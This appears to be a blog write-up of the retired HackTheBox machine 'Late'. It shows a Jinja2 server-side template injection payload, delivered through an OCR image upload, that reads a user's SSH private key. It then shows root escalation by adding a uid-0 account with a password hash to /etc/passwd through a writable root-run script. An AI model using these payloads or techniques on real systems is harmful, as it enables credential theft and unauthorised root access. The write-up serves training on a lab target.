 Title:HTB: Late
Date: 06-19-2022 14:55
category:security
tags:security, boot2root, HTB, SSTI, SUID, OCR
meta:security, boot2root, HTB, SSTI, SUID, OCR

<img class="align-left" src="/media/2023.xx/late_card.png" alt="Late Card" width="262">

This article is a writeup about a retired HacktheBox machine:
[Late](https://www.hackthebox.com/home/machines/profile/463) publish on
April 23, 2022 by
[kavigihan](https://www.hackthebox.com/home/users/profile/389926).
This box is rated as an easy machine. It implies an OCR function, a SSTI and a SUID binary.

<!-- PELICAN_END_SUMMARY -->

# Foothold and user

## Recon

Let us start as always by a `nmap` scan. Only port 80 (HTTP) and 22 (SSH) are open.

    :::text
    # Nmap 7.92 scan initiated Sun Jun 12 08:22:12 2022 as: nmap -sSV -oN notes.md 10.129.72.242
    Nmap scan report for 10.129.72.242
    Host is up (0.017s latency).
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    nginx 1.14.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmp.org/submit/ .
    # Nmap done at Sun Jun 12 08:22:19 2022 -- 1 IP address (1 host up) scanned in 7.13 seconds

Port 80 was a web application containing a link to a subdomain 
`http://images.late.htb/`. This application allowed to perform OCR on images.
We test a few example and realize that we are facing [SSTI](https://portswigger.net/web-security/server-side-template-injection).

We upload an image containing the basic SSTI identification:

![SSTI identification](/media/2023.xx/late_01.png)

The application resolved the second operation.

    :::text
    <p>${8*8} aa 49
    </p>

Following PortSwigger graph I uploaded a new image.

![SSTI identification 2](/media/2023.xx/late_02.png)

The application resolved `7*'7'` as `7777777`. Therefore the application was using Jinja2.

A [blog post](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee) described Jinja injection.

I verified that `popen` is available:

![checking popen](/media/2023.xx/late_03.png)

Then by dichotomy I founded the `popen` index.

![popen index](/media/2023.xx/late_04.png)

`Popen` was the subprocess with index 249.

    :::text
    <p>[&lt;class &#39;zipfile.ZipFile&#39;&gt;, &lt;class &#39;pkgutil.ImpImporter&#39;&gt;, &lt;class &#39;pkgutil.ImpLoader&#39;&gt;, &lt;class &#39;subprocess.CompletedProcess&#39;&gt;, &lt;class &#39;subprocess.Popen&#39;&gt;]
    </p>

I ran `ls` to proved that I had RCE.

![running ls](/media/2023.xx/late_05.png)

    :::text
    <p>(b&#39;main.py\nmisc\n__pycache__\nstatic\ntemplates\nuploads\nwsgi.py\n&#39;, None)
    </p>

I ran `id` to get an idea of which user was running the application. The user `id` was 1000 meaning that this
was probably a standard human user.

    :::text
    <p>(b&#39;uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)\n&#39;, None)

After a few trials, I found a payload that allowed to retrieve `id_rsa` from the user.

    :::text
    {{''.__class__.__mro__[1].__subclasses__()[249](['cat','/home/svc_acc/.ssh/id_rsa'],stdout=-1).communicate()}}

I connected to the box using SSH and grabbed the user flag.

    :::text
    └─$ ssh svc_acc@10.129.72.242 -i id_rsa
    svc_acc@late:~$ id
    uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)
    svc_acc@late:~$ cat user.txt
    17295259a78e40790974b3ac7d2d0a8f

# Root

I ran [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and found that there was a user writable file in `/usr/local/sbin`, a folder where binary are run as root.

    :::bash
    #!/bin/bash

    RECIPIENT="root@late.htb"
    SUBJECT="Email from Server Login: SSH Alert"

    BODY="
    A SSH login was detected.

            User:        $PAM_USER
            User IP Host: $PAM_RHOST
            Service:     $PAM_SERVICE
            TTY:         $PAM_TTY
            Date:        `date`
            Server:      `uname -a`
    "

    if [ ${PAM_TYPE} = "open_session" ]; then
            echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
    fi


I copied `/etc/passwd` and added a new line containing a root user (`id=0`) with the password `pass123`:
`toto2:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash`

Then I modified the `/usr/local/sbin/ssh-alert.sh` file to copy the modified `passwd` file in `etc`:
`echo 'cp /home/svc_acc/passwd /etc/passwd' >>/usr/local/sbin/ssh-alert.sh`

Then I connect to ssh with our `svc_acc` user and switch user to `toto2` and grabbed the flag.

    :::text
    svc_acc@late:~$ su toto2
    root@late:/home/svc_acc# id
    uid=0(root) gid=0(root) groups=0(root)
    root@late:/home/svc_acc# cd
    root@late:~# cat root.txt
    365276e9d7ba2bb0c907fe9ee608164a

# Wrapping up

A nice box exploiting SSTI and a SUID binary. The fact that the SSTI was in an image was
fun but tedious as sometime the OCR was not perfect and submitting the same image another
time did not give the same result.

